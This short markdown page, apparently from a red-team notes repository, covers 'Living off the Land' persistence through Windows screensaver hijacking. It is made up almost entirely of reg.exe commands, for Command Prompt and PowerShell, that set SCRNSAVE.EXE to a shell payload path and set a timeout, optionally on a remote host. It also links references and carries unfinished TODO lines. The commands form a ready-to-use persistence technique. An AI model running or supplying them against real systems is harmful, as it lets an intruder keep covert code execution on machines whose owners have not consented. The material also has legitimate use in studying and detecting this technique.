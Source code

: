 # Living off the Land

TODO: Refer to the link

## 01 - Command Prompt

```
C:\> reg.exe add "[\\<IP>\]HKCU\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg.exe add "[\\<IP>\]HKCU\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "<seconds>" /f
```

## 02 - PowerShell

TODO: Convert the commands to cmdlets

```
C:\> reg add "[\\<IP>\]HKCU\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add "[\\<IP>\]HKCU\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "<seconds>" /f
```

---
## References

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

- [austin-lai: Persistence through Windows Screensaver Hijacking](https://github.com/austin-lai/Persistence-through-Windows-Screensaver-Hijacking)